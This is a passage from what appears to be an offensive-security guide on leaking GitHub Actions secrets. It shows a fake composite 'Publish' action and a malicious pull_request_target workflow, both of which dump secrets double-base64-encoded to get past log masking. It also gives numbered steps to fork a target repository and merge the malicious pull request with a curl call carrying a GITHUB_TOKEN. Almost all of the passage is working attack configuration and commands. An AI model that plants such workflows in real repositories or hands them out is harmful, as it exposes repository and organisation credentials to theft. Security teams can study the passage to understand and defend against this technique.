 The easiest way is to override the `action.yml` file with a composite action that leaks secrets:

```yaml
name: 'Publish'
description: 'Fake publish action'
inputs:
  key:
    description: 'Publish key'
    required: true

runs:
  using: "composite"
  steps:
    - run: echo "${{ inputs.key }}" | base64 -w 0 | base64 -w 0
      shell: bash
```

## Leaking repository and organization secrets by adding a malicious workflow

{% hint style="warning" %}
GitHub no longer allows modifying files in the `.github/workflows` folder or merging a branch from **forks** with changes in the `.github/workflows` folder using `GITHUB_TOKEN`.
You need a personal access token with `repo` and `workflow` scopes to be able to add a malicious workflow.
{% endhint %}

Usually, non-default branches have no branch protection rules. If you have access to `GITHUB_TOKEN` with the `pull_requests:write` scope, you can add an arbitrary workflow to a non-default branch. Since the `pull_request_target` workflow in non-default branches can be triggered by a user, you can leak all repository and organization secrets using the following steps:

1. Fork the target repo.
1. Add a malicious `pull_request_target` workflow:

    ```yaml
    name: Malicious workflow
    on: pull_request_target
    env:
      secrets: ${{ toJSON(secrets) }}
    jobs:
      one:
        runs-on: ubuntu-latest
        steps:
          - run: echo $secrets | base64 -w0 | base64 -w0
    ```

1. Create a pull request to a non-default branch.
1. Merge the pull request using `GITHUB_TOKEN` with `pull_requests:write` scope:

    ```bash
    curl -X PUT -H "Accept: application/vnd.github+json" -H "Authorization: Bearer <GITHUB_TOKEN>" \
      https://api.github.com/repos/<OWNER>/<REPO>/pulls/<PR_NUMBER>/merge
    ```
